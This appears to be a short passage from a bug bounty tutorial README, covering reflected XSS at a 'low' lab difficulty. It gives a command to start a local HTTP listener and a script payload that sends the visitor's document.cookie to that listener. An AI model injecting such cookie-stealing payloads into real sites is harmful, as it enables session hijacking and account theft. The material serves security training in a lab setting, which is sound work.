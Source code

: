 # bug-bounty-tutorial
bug bounty tutorial

## 17.XSS-(Reflected)

### low
```
python3 -m http.server 1337
<script>window.location='http://127.0.0.1:1337?cookie='+document.cookie</script>
```
